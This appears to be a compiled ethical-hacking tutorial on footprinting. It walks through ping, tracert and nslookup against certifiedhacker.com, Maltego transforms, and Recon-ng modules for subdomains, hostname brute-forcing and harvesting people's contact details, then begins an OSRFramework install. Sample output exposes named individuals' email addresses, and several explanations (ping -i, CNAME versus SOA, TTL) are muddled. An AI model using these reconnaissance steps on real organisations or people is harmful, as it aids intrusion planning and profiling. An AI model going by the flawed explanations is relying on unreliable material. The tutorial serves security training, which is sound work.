<h2 class="wp-block-heading" id="nslookup"><code>nslookup</code><a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/1-Windows-CommandLine.html#nslookup"></a></h2>


<p>Used for querying the DNS (Domain Name System), to obtain a domain name or IP address mapping and other specific DNS record.</p>


<h2 class="wp-block-heading" id="tracert-windows-or-traceroute-linux"><code>tracert</code>&nbsp;(Windows) or&nbsp;<code>traceroute</code>&nbsp;(Linux)<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/1-Windows-CommandLine.html#tracert-windows-or-traceroute-linux"></a></h2>


<p>Diagnostic tool for displaying the route and measuring transit delays of packets across an IP network</p>


<p><strong>NOTE:</strong><br><strong>I strongly recommend you to use the -help command to specify all parameters of a given command</strong></p>


<p><code>ping -help</code></p>


<hr class="wp-block-separator has-alpha-channel-opacity"/>


<h2 class="wp-block-heading" id="finding-the-ip-address-of-httpwwwcertifiedhackercom">Finding the IP address of http://www.certifiedhacker.com<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/1-Windows-CommandLine.html#finding-the-ip-address-of-httpwwwcertifiedhackercom"></a></h2>


<p>Open the&nbsp;<strong>Command prompt</strong>&nbsp;or&nbsp;<strong>PowerShell</strong>&nbsp;on Windows and type:</p>


<p><code>ping www.certifiedhacker.com</code></p>


<p>The response should be similiar to the message below.<br>Note: The IP address may differ in your environment.</p>


<pre class="wp-block-code"><code>Reply from 162.241.216.11: bytes=32 time=160ms TTL=40
Reply from 162.241.216.11: bytes=32 time=151ms TTL=40
Reply from 162.241.216.11: bytes=32 time=151ms TTL=40
Reply from 162.241.216.11: bytes=32 time=153ms TTL=40

Ping statistics for 162.241.216.11:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss)
Approximate round trip times in milli-seconds:
    Minimum = 151ms, Maximum = 160ms, Average = 153ms
</code></pre>


<hr class="wp-block-separator has-alpha-channel-opacity"/>


<h2 class="wp-block-heading" id="finding-the-maximum-frame-size-on-the-network">Finding the maximum frame size on the network<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/1-Windows-CommandLine.html#finding-the-maximum-frame-size-on-the-network"></a></h2>


<p>Use the last command and add the&nbsp;<code>-f</code>&nbsp;parameter to not fragment on the ping packet and&nbsp;<code>-l</code>&nbsp;to set the frame size to&nbsp;<code>1500</code>&nbsp;bytes.</p>


<p><code>ping www.certifiedhacker.com -f -l 1500</code></p>


<p>Output:</p>


<pre class="wp-block-code"><code>Packet needs to be fragmented but DF set.
</code></pre>


<p>This message above means that the frame is too large to be on the network and needs to be fragmented.</p>


<p>The propose here is to try different values until you reach the maximum frame size.</p>


<p><strong>Example:</strong></p>


<p>` ping www.certifiedhacker.com -f -l 1450<code>&lt;br&gt; _working_&lt;br&gt;&nbsp;</code>ping www.certifiedhacker.com -f -l 1475<code>&lt;br&gt; _reached the limit_&lt;br&gt;&nbsp;</code>ping www.certifiedhacker.com -f -l 1473<code>&lt;br&gt; _reached the limit_&lt;br&gt;&nbsp;</code>ping www.certifiedhacker.com -f -l 1472`<br><em>working</em></p>


<p>In conclusion, note the last two replies&nbsp;<code>1473</code>&nbsp;bytes and&nbsp;<code>1472</code>&nbsp;bytes shows the&nbsp;<strong>maximum frame size</strong>&nbsp;on this machine’s network. ***</p>


<h2 class="wp-block-heading" id="investigate-the-ttl-time-to-live">Investigate the TTL (Time to Live).<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/1-Windows-CommandLine.html#investigate-the-ttl-time-to-live"></a></h2>


<p>Every frame on the network has their own TTL defined.<br>If the TTL reaches 0, the router discards the packet to prevent packet loss.</p>


<p><code>ping www.certifiedhacker.com -i 3</code></p>


<pre class="wp-block-code"><code>Reply from 10.10.127.254: TTL expired in transit.
Reply from 10.10.127.254: TTL expired in transit.
Reply from 10.10.127.254: TTL expired in transit.
Reply from 10.10.127.254: TTL expired in transit.
</code></pre>


<p>The&nbsp;<code>-i</code>&nbsp;parameter means wait time, that is the number of seconds to wait between each ping (values between&nbsp;<code>1-255</code>).</p>


<p>TTL expired means that the router discarded the frame, beacuse the TTL has expired (reached 0). ***</p>


<h2 class="wp-block-heading" id="find-the-traceroute-from-your-machine-to-wwwcertifiedhackercom">Find the traceroute from your machine to www.certifiedhacker.com<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/1-Windows-CommandLine.html#find-the-traceroute-from-your-machine-to-wwwcertifiedhackercom"></a></h2>


<p>This command traceroutes the network configuration information of the target domain.</p>


<p>Open a new window on your prompt or powershell and type:</p>


<p><code>tracert www.certifiedhacker.com</code></p>


<p>The system resolves the URL into its IP address and starts to trace the path to the destination. Here it takes 19 hops for the packet to reach the specified destination.</p>


<p>You can use the help flag to show different options for the command:&nbsp;<code>tracert /?</code>&nbsp;***</p>


<h2 class="wp-block-heading" id="lets-check-the-life-span-of-the-packet">Let’s check the life span of the packet.<br><a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/1-Windows-CommandLine.html#lets-check-the-life-span-of-the-packet"></a></h2>


<p>Open a new window of your prompt or powershell and type:</p>


<p><code>ping www.certifiedhacker.com -i 2 -n 1</code></p>


<p>We are setting the TTL to&nbsp;<code>2</code>&nbsp;in an attempt to check the life span of the packet and&nbsp;<code>-n</code>&nbsp;count of packet to&nbsp;<code>1</code></p>


<pre class="wp-block-code"><code>Pinging certifiedhacker.com &#91;162.241.216.11] with 32 bytes of data:
Reply from 10.10.10.45: TTL expired in transit.

Ping statistics for 162.241.216.11:
    Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
</code></pre>


<p>There is a reply coming from IP address 162.241.216.11 with no packet loss.</p>


<p>Let’s set the TTL value to&nbsp;<code>3</code>&nbsp;to see what happens</p>


<p><code>ping www.certifiedhacker.com -i 3 -n 1</code></p>


<pre class="wp-block-code"><code>Pinging certifiedhacker.com &#91;162.241.216.11] with 32 bytes of data:
Reply from 10.10.127.254: TTL expired in transit.

Ping statistics for 162.241.216.11:
    Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
</code></pre>


<p>Note there is a different IP address, the same one that we gather on the traceroute command on the first hops.</p>


<p>Repeat this and increase the TTL value until reach the IP address from www.certifiedhacker.com that we trace routed before.</p>


<p><code>ping www.certifiedhacker.com -i 19 -n 1</code></p>


<pre class="wp-block-code"><code>Pinging certifiedhacker.com &#91;162.241.216.11] with 32 bytes of data:
Reply from 162.241.216.11: bytes=32 time=156ms TTL=40

Ping statistics for 162.241.216.11:
    Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 156ms, Maximum = 156ms, Average = 156ms
</code></pre>


<p>Done! These results implies when you set the TTL to 19(in this case) the reply is received from destination host (162.241.216.11). Keep in mind that the output will be similar to the trace route results.</p>


<p>Make a note of all the IP addresses from which you receive a reply.</p>


<hr class="wp-block-separator has-alpha-channel-opacity"/>


<h2 class="wp-block-heading" id="using-nslookup-command">Using&nbsp;<code>nslookup</code>&nbsp;command<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/1-Windows-CommandLine.html#using-nslookup-command"></a></h2>


<p>Used for querying the DNS (Domain Name System), to obtain a domain name or IP address mapping and other specific DNS record.</p>


<p>Type in your prompt or powershell:</p>


<p><code>nslookup</code></p>


<p><strong>Note</strong>: This command will launch a interactive mode, you can type&nbsp;<code>help</code>&nbsp;to list available commands!</p>


<p>For query IP address of a given domain, you need to set the&nbsp;<code>type</code>&nbsp;to&nbsp;<code>A</code>&nbsp;record, then enter the target domain:</p>


<p><code>&gt; type=a</code><br><code>&gt; www.certifiedhacker.com</code></p>


<pre class="wp-block-code"><code>&gt; set type=a
&gt; www.certifiedhacker.com

Server:  dns.google
Address:  8.8.8.8

Non-authoritative answer:
Name:    certifiedhacker.com
Address:  162.241.216.11
Aliases:  www.certifiedhacker.com
</code></pre>


<p><strong>Note</strong>: This environment uses Google DNS server (8.8.8.8). To configure your own DNS server just type&nbsp;<code>server x.x.x.x</code>.</p>


<p>The first two lines&nbsp;<strong>dns.google</strong>&nbsp;and&nbsp;<strong>8.8.8.8</strong>&nbsp;specifies that the result was directed to this server to resolve your requested domain. Google’s DNS server do not contain domain’s original zone files, this is why is&nbsp;<strong>Non-authoritative</strong>.</p>


<p>The&nbsp;<strong>Authoritative</strong>&nbsp;is a name server that has the original source files of a domain zone files. To obtain the Authoritative name server, set the&nbsp;<code>type</code>&nbsp;to&nbsp;<code>CNAME</code>&nbsp;record and query the target:</p>


<p><code>set type=cname</code><br><code>certifiedhacker.com</code></p>


<pre class="wp-block-code"><code>&gt; set type=cname
&gt; certifiedhacker.com
Server:  dns.google
Address:  8.8.8.8

certifiedhacker.com
        primary name server = ns1.bluehost.com
        responsible mail addr = dnsadmin.box5331.bluehost.com
        serial  = 2018011205
        refresh = 86400 (1 day)
        retry   = 7200 (2 hours)
        expire  = 3600000 (41 days 16 hours)
        default TTL = 300 (5 mins)
</code></pre>


<p>The&nbsp;<code>CNAME</code>&nbsp;lookup is done directly against the domain’s authoritative name server.</p>


<p>With the authoritative name server, you can determine the IP address. To query IP address set the&nbsp;<code>type</code>&nbsp;to&nbsp;<code>A</code>, then type the&nbsp;<strong>primary name server</strong>&nbsp;displayed in your lab environment, in my case:&nbsp;<code>ns1.bluehost.com</code>.</p>


<p><code>set type=a</code><br><code>ns1.bluehost.com</code></p>


<pre class="wp-block-code"><code>&gt; set type=a
&gt; ns1.bluehost.com
Server:  dns.google
Address:  8.8.8.8

Non-authoritative answer:
Name:    ns1.bluehost.com
Address:  162.159.24.80
</code></pre>


<p>In conclusion, the&nbsp;<strong>Authoritative name server</strong>&nbsp;stores the records associated with the respective domain. Having the authoritative name server (primary name server) and the IP address associated with it, an attacker can attempt to exploit the server, performing attacks like DDoS, URL redirection and so on.</p>


<p><strong>Final analysis:</strong></p>


<ul class="wp-block-list">
<li>Document all the IP addresses</li>


<li>Reply request IP addresses</li>


<li>Information about TTL’s</li>


<li>DNS server names and other DNS information.</li>
</ul>


<h1 class="wp-block-heading" id="footprinting-using-maltego">Footprinting using Maltego</h1>


<p>Maltego is an open source in$$telligence and forensics application. It gathers information about a target and represents in an easily-understandable format.</p>


<h3 class="wp-block-heading" id="requirements">Requirements:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/2-Maltego-Basics.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Kali Linux virtual machine</li>
</ul>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/2-Maltego-Basics.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Identify IP address</li>


<li>Identify Domain and Domain Name Schema</li>


<li>Identify Server Side Technology</li>


<li>Identify Service Oriented Architecture (SOA) information</li>


<li>Identify Name Server</li>


<li>Identify Mail Exchanger</li>


<li>Identify Geographical Location</li>


<li>Identify Entities</li>


<li>Discover Email addresses and Phone numbers</li>
</ul>


<p>Currently there are three versions of the Maltego client namely Maltego CE, Maltego Classic and Maltego XL.&nbsp;<strong>This tutorial will focus on Maltego Community Edition (CE).</strong></p>


<p>Kali Linux comes with Maltego installed. Launch your Maltego from the applications bar. In case it is your first time using Maltego, just select the Maltego CE (Free) edition and create a free account on https://www.paterva.com/community/community.php</p>


<h2 class="wp-block-heading" id="maltego-basics">Maltego Basics<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/2-Maltego-Basics.html#maltego-basics"></a></h2>


<ol class="wp-block-list">
<li>Click on (+) icon located at the top-left corner of the GUI (in the toolbar) to create a new graph window (like a blank document).</li>


<li>Go to left panel and expand the <strong>Infrastructure</strong> node under Entity Palette. This list have a bunch of useful entities such as AS, DNS Name, Domain, MX Record, etc.</li>
</ol>


<figure class="wp-block-image"></figure>


<ol class="wp-block-list">
<li>Drag the Website entity to your New Graph(1) section.</li>


<li>Rename the domain name to www.certifiedhacker.com</li>
</ol>


<h2 class="wp-block-heading" id="identifying-the-server-side-technology">Identifying the server side technology<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/2-Maltego-Basics.html#identifying-the-server-side-technology"></a></h2>


<ol class="wp-block-list">
<li>Right-click the entity and select <strong>All Transforms</strong> and click <strong>To Server Technologies [BuiltWith]</strong></li>
</ol>


<figure class="wp-block-image"></figure>


<p>Note: Maltego can be useful to show results in more dynamic way processing by visual demonstrating interconnected links between searched items.</p>


<h2 class="wp-block-heading" id="identifying-the-domain">Identifying the Domain<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/2-Maltego-Basics.html#identifying-the-domain"></a></h2>


<ol class="wp-block-list">
<li>Create a new graph or delete/save the previous results.</li>


<li>Right-click the Domain entity and select <strong>All Transforms -> To Domains [DNS]</strong>.</li>
</ol>


<figure class="wp-block-image"></figure>


<p>This transform will attempt to test name schemas against a domain and try to identify a specific name schema for the domain.</p>


<h2 class="wp-block-heading" id="identifying-the-soa-information">Identifying the SOA information<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/2-Maltego-Basics.html#identifying-the-soa-information"></a></h2>


<ol class="wp-block-list">
<li>Create a new graph or delete/save the previous results.</li>


<li>Right-click the Domain entity and select <strong>All Transforms -> To DNS Name &#8211; SOA (Start of Authority)</strong>.</li>
</ol>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="identifying-the-mail-exchanger">Identifying the Mail Exchanger<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/2-Maltego-Basics.html#identifying-the-mail-exchanger"></a></h2>


<ol class="wp-block-list">
<li>Create a new graph or delete/save the previous results.</li>


<li>Right-click the Domain entity and select <strong>All Transforms -> To DNS Name &#8211; MX (mail server)</strong>.</li>
</ol>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="identifying-the-name-server">Identifying the Name Server<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/2-Maltego-Basics.html#identifying-the-name-server"></a></h2>


<ol class="wp-block-list">
<li>Create a new graph or delete/save the previous results.</li>


<li>Right-click the Domain entity and select <strong>All Transforms -> To DNS Name &#8211; NS (name server)</strong>.</li>
</ol>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="identifying-the-ip-address-location-and-whois">Identifying the IP Address, Location and Whois<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/2-Maltego-Basics.html#identifying-the-ip-address-location-and-whois"></a></h2>


<ol class="wp-block-list">
<li>Create a new graph or delete/save the previous results.</li>


<li>Right-click the Website entity and select <strong>All Transforms -> To IP address [DNS]</strong>.</li>


<li>Right-click the IP entity and select <strong>All Transforms -> To Location [city, country]</strong>.</li>


<li>Right-click the Website entity and select <strong>All Transforms -> To entities from whois [IBM Watson]</strong>.</li>
</ol>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="in-conclusion">In conclusion:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/2-Maltego-Basics.html#in-conclusion"></a></h2>


<p>Maltego is a powerful tool, you can extract a broad type of information through the network, technologies and personnel(email, phone number, twitter).</p>


<p>By extracting all this information, an attacker can perform different type of malicious activity.</p>


<ul class="wp-block-list">
<li>The built-in technologies of the server: attackers might search for vulnerabilities related to any of them and simulate exploitation techniques.</li>


<li>SOA information: also can be useful for attackers, they can abuse this information to find vulnerabilities in their services and architectures and exploit them.</li>


<li>Name Server: attackers can exploit NS using malicious techniques like DNS hijacking and URL redirection.</li>


<li>IP addresses: attackers can abuse the IP address by scanning and searching for open ports and vulnerabilities, and thereby attempt to intrude in the network and exploit them.</li>


<li>Geographical location: attackers can perform social engineering attacks to leverage sensitive information.</li>
</ul>


<h1 class="wp-block-heading" id="recon-ng-tutorial">Recon-ng Tutorial</h1>


<p>Recon-ng is a web-based open-source reconnaissance tool used to extract information from a target organization and its personnel.<br><em>Official repository:</em>&nbsp;https://github.com/lanmaster53/recon-ng</p>


<ul class="wp-block-list">
<li>Version: v5.0.1</li>
</ul>


<h3 class="wp-block-heading" id="requirements">Requirements:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/3-Recon-ng.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Kali Linux virtual machine</li>
</ul>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/3-Recon-ng.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>How to perform network recon.</li>


<li>Gather hosts related to a domain.</li>


<li>Personal Information Gathering.</li>


<li>Generate a report with harvested information.</li>
</ul>


<p>Recon-ng has a look and feel similar to the Metasploit Framework, reducing the learning curve for leveraging the framework.</p>


<h2 class="wp-block-heading" id="first-steps">First steps<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/3-Recon-ng.html#first-steps"></a></h2>


<ol class="wp-block-list">
<li>Open the terminal and type <code>recon-ng</code></li>


<li>Type <code>help</code> to view all commands that allow you to add/delete records to DB, query, etc.<code>back Exits the current context dashboard Displays a summary of activity db Interfaces with the workspace's database exit Exits the framework help Displays this menu index Creates a module index (dev only) keys Manages third party resource credentials marketplace Interfaces with the module marketplace modules Interfaces with installed modules options Manages the current context options pdb Starts a Python Debugger session (dev only) script Records and executes command scripts shell Executes shell commands show Shows various framework items snapshots Manages workspace snapshots spool Spools output to a file workspaces Manages workspaces </code><strong>Note:<br>On your first load of recon-ng note the message below. You begin with an empty framework (without modules pre-installed).</strong><code>[*] No modules enabled/installed.</code></li>


<li>Create a new workspace:<br><code>workspaces create CEH</code></li>


<li>Add the target domain to perform a network recon:<br><code>db insert domains</code><br><code>certifiedhacker.com</code></li>
</ol>


<p>You can view the added domain by typing&nbsp;<code>show domains</code></p>


<pre class="wp-block-code"><code>&#91;recon-ng]&#91;CEH] &gt; db insert domains
domain (TEXT): certifiedhacker.com
&#91;*] 1 rows affected.
&#91;recon-ng]&#91;CEH] &gt; show domains

  +--------------------------------------------+
  | rowid |        domain       |    module    |
  +--------------------------------------------+
  | 1     | certifiedhacker.com | user_defined |
  +--------------------------------------------+
</code></pre>


<h2 class="wp-block-heading" id="using-modules-from-recon-ng-marketplace">Using Modules from Recon-ng Marketplace<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/3-Recon-ng.html#using-modules-from-recon-ng-marketplace"></a></h2>


<p>Recon-ng works with independent modules, database interaction, built in convenience functions, interactive help, and command completion, Recon-ng provides a powerful environment in which open source web-based reconnaissance can be conducted quickly and thoroughly. To add new modules you will use&nbsp;<strong>marketplace</strong>.</p>


<p>Recon-ng Marketplace repository:<br>https://github.com/lanmaster53/recon-ng-marketplace</p>


<p>To view the entire marketplace repo type:&nbsp;<code>marketplace search</code></p>


<p>Dealing with modules and workspaces process is very easy as shown on the example below:</p>


<pre class="wp-block-code"><code>0. Installing module using marketplace command:
&gt; marketplace install recon/domains-hosts/findsubdomains

1. Loading the module using modules load command:
&gt; modules load /recon/domains-hosts/findsubdomains

2. To show module options:
&gt; info 

3. Executing the module:
&gt; run

4. To switch between modules or workspaces type:
&gt; back

5. Select an existing workspace:
&gt; workspaces select W0rkspaceName 

6. Select an installed module:
&gt; modules load path/to/module-name
</code></pre>


<h2 class="wp-block-heading" id="using-hackertarget-to-find-sub-domains">Using hackertarget to find sub-domains<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/3-Recon-ng.html#using-hackertarget-to-find-sub-domains"></a></h2>


<p>You can find another modules to gather some subdomains, we will use hackertarget on this tutorial.</p>


<p>Let’s install and load it:&nbsp;<code>marketplace install hackertarget</code><br><code>modules load hackertarget</code></p>


<p>Type&nbsp;<code>info</code>&nbsp;to view the SOURCE, currently set at default as show below:&nbsp;<code>info</code></p>


<pre class="wp-block-code"><code>Name    Current Value  Required  Description
------  -------------  --------  -----------
SOURCE  default        yes       source of input (see 'show info' for details)
</code></pre>


<p>Now set the SOURCE to:</p>


<p><code>options set SOURCE certifiedhacker.com</code></p>


<p>You can use the&nbsp;<code>input</code>&nbsp;command to see the target:</p>


<p><code>input</code></p>


<pre class="wp-block-code"><code>+---------------------+
|    Module Inputs    |
+---------------------+
| certifiedhacker.com |
+---------------------+
</code></pre>


<p>Run the module:</p>


<p><code>run</code></p>


<p><strong>Note: If your response is working properly but messy with a bunch of queries and values, just type&nbsp;<code>show hosts</code>&nbsp;to populate a better output.</strong></p>


<p><code>show hosts</code><br>…<br><em>(This command will show a clean summary of resources discovered)</em></p>


<h2 class="wp-block-heading" id="brute-forcing-hostnames">Brute-forcing hostnames<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/3-Recon-ng.html#brute-forcing-hostnames"></a></h2>


<p>You can use another modules to harvest more hosts, such as&nbsp;<strong>brute_hosts</strong>.</p>


<p><strong>Exit</strong>&nbsp;your current module:</p>


<p><code>back</code></p>


<p>Install the&nbsp;<strong>brute_hosts</strong>&nbsp;module:</p>


<p><code>marketplace install recon/domain-hosts/brute_hosts</code></p>


<p>Load the module:</p>


<p><code>modules load recon/domain-hosts/brute_hosts</code></p>


<p>Set the SOURCE to target domain:</p>


<p><code>options set SOURCE certifiedhacker.com</code></p>


<p>By typing&nbsp;<code>info</code>&nbsp;you can see on this particular module, you can set your own hostnames wordlist. I recommend to use the default one that is pretty good.</p>


<pre class="wp-block-code"><code>Name      Current Value                 
  --------  -------------  
  SOURCE    certifiedhacker.com         
  WORDLIST  /root/.recon-ng/data/hostnames.txt 
</code></pre>


<ol class="wp-block-list">
<li>Run the module: <code>run</code><br>…<br><em>(keep in mind that will take a while)</em></li>
</ol>


<h2 class="wp-block-heading" id="generate-a-report">Generate a report<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/3-Recon-ng.html#generate-a-report"></a></h2>


<p>Now that you have harvested a number of hosts, you will prepare a report containing all the information.</p>


<p>Install the&nbsp;<strong>reporting module</strong>&nbsp;to report in html format.</p>


<p><code>marketplace install reporting/html</code></p>


<p><strong>Note:</strong>&nbsp;You can install any of these modules below to export in different formats.</p>


<pre class="wp-block-code"><code>reporting/csv
reporting/html
reporting/json
reporting/list
reporting/proxifier
reporting/pushpin
reporting/xlsx
reporting/xml
</code></pre>


<p>Load the module:</p>


<p><code>modules load reporting/html</code></p>


<p>To configure the reporting information, type&nbsp;<code>info</code>&nbsp;to see the values.</p>


<pre class="wp-block-code"><code> Name      Current Value                                
 --------  -------------                                
 CREATOR                                   
 CUSTOMER  
 FILENAME  /root/.recon-ng/workspaces/CEH/results.html
 SANITIZE  True 
</code></pre>


<p>You will need to assign these values, CREATOR, CUSTOMER and FILENAME.</p>


<p>Set your name[CREATOR], customer name[CUSTOMER], path to export and the file name[FILENAME].</p>


<p><code>options set CREATOR J0nDoe</code><br><code>options set CUSTOMER CertifiedHacker Network</code><br><code>options set FILENAME /root/Desktop/CE-Results.html</code></p>


<p>Run the module to export:</p>


<p><code>run</code></p>


<p><strong>The generated report is saved to to the Desktop.</strong></p>


<p>There is not much in this report, but when you start running multiple modules and add in geolocation reports can get very complex. Recon-ng does a great job keeping track of everything.</p>


<h1 class="wp-block-heading" id="using-recon-ng-to-gather-personnel-information-part-2">Using Recon-ng to Gather Personnel Information (part 2)</h1>


<p>Objectives:</p>


<ul class="wp-block-list">
<li>Obtain contacts of personnel working in a organization.</li>


<li>Find the existence of user profiles on varios websites.</li>
</ul>


<p><strong>Important note:</strong>&nbsp;The&nbsp;<strong>location</strong>&nbsp;and&nbsp;<strong>pushpin modules</strong>&nbsp;mentioned in this tutorial require a valid API key to use and have some GDPR implications about data collection. Some require you to pay money, which will be mentioned below. I suggest as you go along, you save all the API keys to a file so you can use them later. To setup an API key to your recon-ng is very simple, just follow the document below, and manage your keys inside Recon-ng using:&nbsp;<code>keys</code>&nbsp;command.<br>https://github.com/Raikia/Recon-NG-API-Key-Creation/blob/master/README-v4.8.3.md</p>


<h2 class="wp-block-heading" id="personal-information-gathering">Personal Information Gathering<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/3-Recon-ng.html#personal-information-gathering"></a></h2>


<p>Gathering personal information involves discovering contact details such as email, address, etc. present on target organization’s web site. The Recon-ng contains various modules for haversting and discovering contact information about a certain company. Some Recon-ng modules for discovering personal information are:</p>


<ul class="wp-block-list">
<li>recon/domain-contacts</li>


<li>recon/companies-contacts</li>


<li>recon/domain-contacts/namechk</li>
</ul>


<h2 class="wp-block-heading" id="setup-your-recon-ng">Setup your Recon-ng<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/3-Recon-ng.html#setup-your-recon-ng"></a></h2>


<ol class="wp-block-list">
<li>Boot your Kali Linux and open the terminal.</li>


<li>Type <code>recon-ng</code> to launch the application.</li>


<li>Add a new workspace named recon:</li>
</ol>


<p><code>workspaces create recon</code></p>


<h2 class="wp-block-heading" id="gather-contacts-associated-with-a-domain">Gather contacts associated with a domain<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/3-Recon-ng.html#gather-contacts-associated-with-a-domain"></a></h2>


<p>Set a domain and perform footprinting on it to extract contact available in the domain.</p>


<p>The module selected to perform this technique uses the ARIN Whois RWS to harvest POC data from whois queries for the given domain.</p>


<p>Install and load the module:</p>


<p><code>marketplace install recon/domains-contacts/whois_pocs</code></p>


<p><code>modules load recon/domains-contacts/whois_pocs</code></p>


<p>Check the options required to run the module:</p>


<p><code>info</code></p>


<p>Set the SOURCE value to target domain:</p>


<p><code>options set SOURCE facebook.com</code></p>


<p>Run the module:</p>


<p><code>run</code></p>


<pre class="wp-block-code"><code>------------
FACEBOOK.COM
------------
&#91;*] URL: http://whois.arin.net/rest/pocs;domain=facebook.com
&#91;*] URL: http://whois.arin.net/rest/poc/NOL17-ARIN
&#91;*] &#91;contact] Lea Neteork ops (leigha311@facebook.com) - Whois contact
&#91;*] URL: http://whois.arin.net/rest/poc/OPERA82-ARIN
&#91;*] &#91;contact] &lt;blank&gt; Operations (domain@facebook.com) - Whois contact
&#91;*] URL: http://whois.arin.net/rest/poc/BST184-ARIN
&#91;*] &#91;contact] Brandon Stout (bstout@facebook.com) - Whois contact
&#91;*] URL: http://whois.arin.net/rest/poc/DJW23-ARIN
&#91;*] &#91;contact] Darrell Wayne (tiffany.cameron.507@facebook.com) - Whois contact
&#91;*] URL: http://whois.arin.net/rest/poc/MZU-ARIN
&#91;*] &#91;contact] Mark Zuckerberg (zuck@thefacebook.com) - Whois contact
</code></pre>


<p>The output will return the contacts related to the domains.</p>


<h2 class="wp-block-heading" id="profile-existence">Profile existence<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/3-Recon-ng.html#profile-existence"></a></h2>


<p>The&nbsp;<strong>recon/profiles-profiles/namechk</strong>&nbsp;module validates the username existence of a specified contact, but unfortunately namechk charges to use their API.</p>


<p>We can search the existence of user profiles in various websites using the&nbsp;<strong>recon/profiles-profiles/profiler</strong>.</p>


<p>Type&nbsp;<code>back</code>&nbsp;to return to the workspaces home.</p>


<p>Install and load the module:</p>


<p><code>marketplace install recon/profiles-profiles/profiler</code></p>


<p><code>modules load recon/profiles-profiles/profiler</code></p>


<p>Set the SOURCE value (Target username):</p>


<p><code>options set SOURCE MarkZuckerberg</code></p>


<p>Run the module:</p>


<p><code>run</code></p>


<p>The recon/profiles-profiles/profiler module searches for this username and returns the URL of the profile in various websites (found with the matching username).</p>


<h1 class="wp-block-heading" id="open-source-intelligence-gathering-using-osrframework">Open Source Intelligence Gathering using OSRFramework</h1>


<p>OSRFramework is a set of libraries to perform Open Source Intelligence tasks. They include references to a bunch different applications related to username checking, DNS lookups, information leaks research, deep web search, regular expressions extraction, and many others.</p>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/4-OSRFramework.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Demonstrate how to identify usernames of the target on different social media platforms.</li>
</ul>


<h3 class="wp-block-heading" id="requirements">Requirements:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/4-OSRFramework.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Kali Linux virtual machine. ***
<ol class="wp-block-list">
<li>Log into <strong>Kali Linux</strong> machine and open a <strong>Terminal</strong> window..</li>
</ol>
</li>
</ul>


<ol class="wp-block-list">
<li>Update APT and install the OSRFramework:</li>
</ol>


<p><code>apt update &amp;&amp; apt -y install osrframework</code></p>


